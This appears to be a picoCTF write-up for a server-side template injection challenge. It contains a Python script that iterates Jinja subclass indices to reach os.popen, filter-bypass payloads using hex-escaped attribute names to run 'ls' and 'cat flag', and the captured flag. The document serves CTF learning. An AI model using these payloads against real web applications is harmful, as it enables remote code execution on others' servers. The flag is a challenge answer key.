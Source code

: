 curl -I http://shape-facility.picoctf.net:59746/announce

<img width="570" height="88" alt="Screenshot 2025-08-17 at 10 25 59 PM" src="https://github.com/user-attachments/assets/7a865d9f-eefc-4a9d-bcd4-20a8b5ff69b0" />

'''
# Script to craft payload


import requests
import html
import re

url = "ctf-url"
#This payload returns a list of all subclasses of the base Python #object class.
payload = "{{\"\".__class__.__base__.__subclasses__()}}"

#We send the payload to the vulnerable endpoint via a POST request.
r = requests.post(url, data={"content":payload})

#If the request is successful, we decode the HTML content and extract class names using regex.

if r.status_code == 200:
    html_content = r.text
    content_decoded = html.unescape(html_content)
    class_names = re.findall(r"<class '([^']+)'>", content_decoded)
    print(len(class_names))

    #For each subclass index, we craft a new payload to try to access __globals__['sys'] and run a shell command: cat flag.
    for i in range(0, len(class_names)):
        new_paload = "{{\"\".__class__.__base__.__subclasses__()["+ str(i) + "].__init__.__globals__['sys'].modules['os'].popen('cat flag').read()}}"
        #We send the new payload to the server.
         nr = requests.post(url, data={"content":new_paload})
         #If the response contains the flag, we print the result and stop the script.
        if nr.status_code == 200:
            print(nr.text)
            print("*"*20)
            #This is how we find the first subclass that gives us working access to Python internals, in this case: index 80.
            print("class name: ", class_names[i], "index: ", i)
            exit(0)
'''

try to print all of directories

'''
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
'''

<img width="1011" height="738" alt="Screenshot 2025-08-17 at 10 38 24 PM" src="https://github.com/user-attachments/assets/fa27a38b-ab5c-4f96-94c6-a6d130ac1711" />

attempt to open flag

'''
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
'''

picoCTF{sst1_f1lt3r_byp4ss_060a5eb0}



